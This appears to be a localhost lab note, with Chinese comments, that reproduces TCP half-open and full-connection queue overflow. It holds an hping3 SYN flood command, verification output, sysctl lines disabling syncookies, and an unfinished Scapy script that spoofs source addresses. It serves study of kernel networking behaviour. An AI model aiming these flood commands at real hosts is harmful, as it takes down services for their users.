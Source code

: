 ```bash
attack()
# attack option2: hping3 imitate syn attack
apt install hping3
hping3 -S -p 8877 --flood 127.0.0.1


# verify
# 查看是否只有 syn 与 syn+ack 包
tcpdump -tn -i lo port 8877
# 查看 SYN-RECV 状态 TCP 连接数量
ss -tna |grep 8877 
LISTEN    0      8                   0.0.0.0:8877                 0.0.0.0:*                                                                                     
SYN-RECV  0      0                 127.0.0.1:8877               127.0.0.1:2022                                                                                  
SYN-RECV  0      0                 127.0.0.1:8877               127.0.0.1:2025                                                                                  
SYN-RECV  0      0                 127.0.0.1:8877               127.0.0.1:2029                                                                                  
SYN-RECV  0      0                 127.0.0.1:8877               127.0.0.1:2026                                                                                  
SYN-RECV  0      0                 127.0.0.1:8877               127.0.0.1:2024                                                                                  
SYN-RECV  0      0                 127.0.0.1:8877               127.0.0.1:2028                                                                                  
SYN-RECV  0      0                 127.0.0.1:8877               127.0.0.1:2027                                                                                  
SYN-RECV  0      0                 127.0.0.1:8877               127.0.0.1:2023                                                                                  
# 查看 TCP 连接因为半连接队列溢出而被丢弃(数据包数量递增)
netstat -s |grep SYNs
87414 SYNs to LISTEN sockets dropped
# 此时已无法建立新的 tcp 连接
telnet 127.0.0.1 8877

```


##### 全连接队列溢出
```bash
# 调整并关闭相关参数
sysctl -w net.ipv4.tcp_syncookies=0
sysctl -w net.ipv4.tcp_abort_on_overflow=0


# nginx
server {
    listen       9999 backlog=10;
...


# attack option1: python scary imitate syn attack
scary
>>>
ip = IP(dst="127.0.0.1")
tcp = TCP(dport=8877, flags="S")
idx = 2
conf.L3socket=L3RawSocket
def connect():
  global idx
  ip.src = f"127.0.0.{ idx }"
  synack = sr1(ip/tcp)
  ack = TCP(sport=synack.dport, dport=synack.sport, flags="A", seq=100, ack=synack.seq + 1)
  send(ip/ack)
```